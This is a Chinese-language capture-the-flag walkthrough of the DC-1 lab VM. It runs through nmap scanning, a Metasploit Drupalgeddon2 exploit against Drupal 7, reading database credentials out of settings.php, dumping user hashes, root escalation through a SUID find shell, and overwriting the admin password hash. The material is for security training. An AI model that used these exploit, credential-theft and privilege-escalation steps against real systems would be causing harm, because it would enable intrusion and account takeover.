DC 1靶场实战

前置环境配置：

DC 1和kali的网络连接均需要调成NAT模式



找到DC 1靶场的ip

首先查看kali的ip：

ip a



扫描192.168.214.0网段：

nmap -sV 192.168.214.0/24



根据开放的端口信息，可以确认DC 1的ip为：192.168.214.146

全面端口与服务扫描

nmap -sV -sC -p- -T4 192.168.214.146 -oN dc1_full_scan.txt



确认 Web 服务运行 Drupal。

确认 CMS 类型与版本

whatweb http://192.168.214.146



明确显示 Drupal 7，不同 CMS 有不同漏洞



通过搜索，Drupal 7 有 Drupalgeddon2漏洞。那么接下来就是利用该漏洞进行后续攻击。

利用 Drupalgeddon2 漏洞

启动 Metasploit：

msfconsole

搜索 Drupal 7 漏洞模块

search drupal 7



找到Drupalgeddon2，编号为1，加载漏洞模块

use exploit/unix/webapp/drupal_drupalgeddon2



设置靶机IP和端口：

set RHOST 192.168.214.146

set RPORT 80

执行攻击：

exploit



获取数据库凭证

shell

查找敏感文件、密码、密钥：

find / -name "settings.php" 2>/dev/null



发现Drupal 网站配置文件路径：/var/www/sites/default/settings.php

读取数据库账号密码：

cat /var/www/sites/default/settings.php



获取到数据库用户名：dbuser

密码：R0ck3t

登录 MySQL，读取 Drupal 后台用户哈希

mysql -udbuser -p'R0ck3t' drupaldb -e "select name,pass from users;"



提权，寻找 SUID 权限程序

find 拥有 SUID 权限！

find / -perm -4000 2>/dev/null



SUID find 提权命令（拿到 root shell）

find . -exec /bin/sh \; -quit

whoami  #验证提权是否成功



依次寻找全部 5 个 Flag

Flag1：

ls

找到flag1.txt，查看flag1.txt：

cat flag1.txt



Flag2：

cat /var/www/sites/default/settings.php



Flag3：

方向：修改已有admin用户的密码，登录网站

cd /var/www

ls

cd scripts



找到密码哈希加密的脚本

密码改成：123，复制哈希加密后的结果

php scripts/password-hash.sh 123



哈希加密后：$S$DpkFSKsz7wdgUtso72k3Dm/91IonoH3vkgOtgV2lbzzHCTxenUrG

python -c 'import pty; pty.spawn ("/bin/bash")'

我们直接修改admin用户的密码：

mysql -udbuser -p'R0ck3t' drupaldb -e "UPDATE users SET pass='\$S\$DpkFSKsz7wdgUtso72k3Dm/91IonoH3vkgOtgV2lbzzHCTxenUrG' WHERE name='admin';"



使用admin/123成功登录网站



点击网站左上角content→flag3



Flag4：

cat /home/flag4/flag4.txt



Flag5：

cat /root/thefinalflag.txt



成功通关DC 1靶场
